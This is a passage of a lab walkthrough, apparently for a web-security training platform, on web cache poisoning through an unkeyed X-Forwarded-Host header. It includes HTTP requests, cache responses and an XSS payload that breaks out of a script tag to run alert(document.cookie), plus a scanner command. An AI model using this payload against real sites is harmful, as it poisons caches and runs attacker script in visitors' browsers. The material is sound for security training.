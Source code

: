 Notice it reflected in the page code.

4. Verify `X-Forwarded-Host` is Unkeyed

Run original request again two times.

Second Response:
```http
-
Cache-Control: max-age=30
Age: 2
X-Cache: hit
```

Run modified request straight after the second original

```http
-
Cache-Control: max-age=30
Age: 5
X-Cache: hit
```

`X-Forwarded-Host` is Unkeyed.

5. Verify page is vulnerable to XSS

Set `X-Forwarded-Host` to:
```js
whatever.net/"></script><script>alert(document.cookie)</script><script src = "
```

Investigate Response:
```js
<script type="text/javascript" src="//whatever.net/">
</script>
<script>
	alert(document.cookie)
</script>
<script+src+%3d+"/resources/js/tracking.js">
</script>
```


6. Send the payload

Request:
```http
-
X-Forwarded-Host: whatever.net/"></script><script>alert(document.cookie)</script><script+src+%3d+"
```

This solves the lab.

### Automation

Use Web Cache Vulnerability Scanner to identify Web Cache Poisoning:

```shell
./wcvs -u https://my.web-security-academy.net/ -gr
```
